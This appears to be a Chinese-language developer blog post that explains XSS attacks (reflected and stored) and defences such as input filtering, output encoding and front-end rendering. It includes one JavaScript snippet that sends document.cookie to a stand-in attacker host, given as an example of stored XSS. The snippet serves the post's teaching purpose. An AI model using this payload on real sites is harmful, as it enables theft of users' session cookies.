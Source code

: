 ```yaml
---
layout: post
title: 你们的系统真的安全吗？你们系统是不是也有这种诡异的情况呢？
tagline: by 懿
categories: java
tag:
---
```


这个文章来源灵感是公司的项目在安全检查的时候，发现了很多 SQL 注入的一些问题还有一些 XSS 攻击问题，SQL 注入我们都是比较了解的，那么什么是 XSS 攻击呢？测试反馈给我的时候我是一脸懵逼呀，现在我们就来说一下什么是 XSS 攻击，以及我们怎么防止它的出现。
<!--more-->

## 什么是XSS攻击

我当时听到 XSS 攻击的时候是一脸懵，但是，程序员咱们不就是就是解决问题的嘛，于是打开 Chrome ，百度！

百度百科给出的解释是这样的：

XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript ，但实际上也可以包括 Java 、 VBScript 、ActiveX 、 Flash  或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。


XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列 表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

## XSS攻击类型

1. XSS 反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

其实反射型 XSS ,也叫非持久型 XSS ，是指发生请求时，XSS 代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含 XSS 代码，最后浏览器解析并执行。从概念上可以看出，反射型 XSS 代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后 XSS 代码才能够攻击。

我们看一下 XSS 攻击他是怎么使用 URL 来进行攻击的。

具体流程：

- 1给2发送一个恶意构造了Web的URL。
- 2点击并查看了这个URL。
- 恶意页面中的JavaScript打开一个具有漏洞的HTML页面并将其安装在2电脑上。
- 具有漏洞的HTML页面包含了在2电脑本地域执行的JavaScript。
- 1的恶意脚本可以在2的电脑上执行2所持有的权限下的命令。

举个例子来说就像是这样的，``` http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>```


2. XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

而 XSS 存储型攻击，也叫持久型 XSS ，主要是将 XSS 代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上 XSS 代码了。最典型的就是留言板 XSS。用户提交了一条包含 XSS 代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有 XSS 代码，就当做正常的HTML和JS解析执行。XSS 攻击就发生了。

这种存储型攻击一般就会用来窃取 Cookie，token，账号和密码这样的数据，

就比如说，我们在页面上写内容的时候，A发了一篇文字，B回复的应该是文字才对，这时候B发送了一段文字，并且在内容里面嵌入了JS的代码，这时候B的JS的代码就会执行，比如在里面窃取你的Cookie等操作，这些都是有可能存在的。

还有的就是有一些网站，在本应该是图片的地方他加上了Src,在你无意中惦记图片的时候，就直接跳转到某个网站下，这些属于其实也是属于XSS攻击的。

就比如说他要获取你的Cookie：
```
var i=document.createElement("img")
document.body.appendChild(i)
i.src = "http://www.hackerserver.com/?c=" + document.cookie

```
就再图片的后面给你加上了这个获取你Cookie的方法，然后你在点击到这个链接的时候，就会把Cookie的信息带出来了。


## XSS攻击需要有哪些条件

1. 需要向web页面注入恶意代码；

2. 这些恶意代码能够被浏览器成功的执行。

也就是说，一旦满足这条件的时候，就会出现XSS攻击这种情况，那么，你的系统安全性将会受到严重的破坏。

## XSS原理

其实XSS攻击最主要发生的地方就是我们的HTML中，因为HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是HTML标签的开始，```<title>与</title> ```之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。

我们说完到底什么是XSS攻击之后，我们该说一下到底应该怎么去防范了。

## 如何防止XSS攻击

1.入参字符过滤

比如说把输入的一些不合法的东西都过滤掉，从而保证安全性。如移除用户提交的的DOM属性如onerror，移除用户上传的Style节点，`<iframe>, <script>，<a>`节点等

2.出参进行编码

像一些常见的符号，如<>在输出的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。例如：对<>做编码如："<"用:"&lt;",">"用:"&gt;"来代替。

3.入参长度限制

xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

4.纯前端渲染

纯前端渲染的过程：

(1).浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。

(2).然后浏览器执行 HTML 中的 JavaScript。

(3).JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。

在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等，请参考下文”预防 DOM 型 XSS 攻击“部分）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。

以上就是我想给大家讲述的内容了，如果你们公司的系统还没有做过XSS漏洞检测，那么你就可以适当的把自己的代码修改一下了，毕竟我们不是一点JS代码都不写的，你说呢？

我是懿，一个正在被打击还在努力前进的码农。欢迎大家关注我们的公众号，加入我们的知识星球，我们在知识星球中等着你的加入。

